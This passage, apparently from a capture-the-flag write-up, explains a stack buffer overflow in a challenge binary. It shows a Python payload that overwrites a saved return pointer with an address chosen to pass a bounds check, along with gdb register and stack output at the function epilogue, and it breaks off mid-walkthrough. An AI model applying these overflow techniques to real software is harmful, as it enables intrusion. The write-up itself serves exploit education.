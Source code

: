 So ideally we'd want to overwrite the saved return pointer with the address of `slayTheBeast()` and be done with it, but that actually won't work. 

At 0x8048544, it checks if the saved return pointer is less than or equal to 0x8048573. If it isn't, then we lose and `exit()` is called, which prevents us from returning to an address of our choosing on the stack. `slayTheBeast()` is at 0x80485db which is greater than 0x8048573, so that won't work.

So let's overwrite it with whatever value will pass at the moment: 

```
buf = ""
buf += "A"*42
buf += p32(0x8048595)
buf += "B"*(50 - len(buf))
```

Write that into a file, direct it into gdb, and break at the function epilogue in `do_battle()`: 

```
───────────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────────
 EAX  0x0
 EBX  0x0
*ECX  0xf7749870 (_IO_stdfile_1_lock) ◂— 0x0
 EDX  0x0
*EDI  0xf7748000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b1db0
*ESI  0xf7748000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b1db0
*EBP  0xffc9f2b8 ◂— 0x41414141 ('AAAA')
*ESP  0xffc9f290 ◂— 0x41418000
*EIP  0x8048595 (doBattle+154) ◂— leave
─────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────
 ► 0x8048595 <doBattle+154>    leave
   0x8048596 <doBattle+155>    ret

   0x8048597 <main>            lea    ecx, dword ptr [esp + 4]
   0x804859b <main+4>          and    esp, 0xfffffff0
   0x804859e <main+7>          push   dword ptr [ecx - 4]
   0x80485a1 <main+10>         push   ebp
   0x80485a2 <main+11>         mov    ebp, esp
   0x80485a4 <main+13>         push   ecx
   0x80485a5 <main+14>         sub    esp, 4
   0x80485a8 <main+17>         call   doBattle <0x80484fb>

   0x80485ad <main+22>         sub    esp, 0xc
─────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────
00:0000│ esp  0xffc9f290 ◂— 0x41418000
01:0004│      0xffc9f294 ◂— 0x41414141 ('AAAA')
... ↓
```

Let's execute `leave` and see what happens:

